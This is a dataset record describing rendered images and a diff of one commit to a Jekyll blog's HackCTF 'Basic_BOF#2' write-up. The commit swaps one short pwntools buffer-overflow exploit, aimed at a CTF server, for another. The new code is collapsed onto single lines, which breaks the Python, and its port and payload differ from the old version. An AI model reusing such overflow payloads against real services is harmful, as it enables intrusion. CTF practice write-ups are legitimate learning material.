

Before and after one commit to HyD3c/HyD3c.github.io, a Jekyll site: the page built from _ctfs/2020-06-30-HackCTF-Basic_BOF#2.md, in a window 1280 px wide. Shown: the top 448 px of the page, without its empty margins (238-1041 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some web fonts are replaced.

Commit message:
Update 2020-06-30-HackCTF-Basic_BOF#2.md

````diff
--- a/_ctfs/2020-06-30-HackCTF-Basic_BOF#2.md
+++ b/_ctfs/2020-06-30-HackCTF-Basic_BOF#2.md
@@ -6,11 +6,8 @@ tag: [pwnable]
 layout: post
 ---
 
-```
-from pwn import *
+{% highlight python %} from pwn import *
 
-p = remote("ctf.j0n9hyun.xyz", 3001)
+p = remote("ctf.j0n9hyun.xyz", 3000)
 
-p.sendline("a"*128+p32(0x804849b))
-p.interactive()
-```
+p.sendline("0"*0x28+p32(0xdeadbeef)) p.interactive() {% endhighlight %}
````
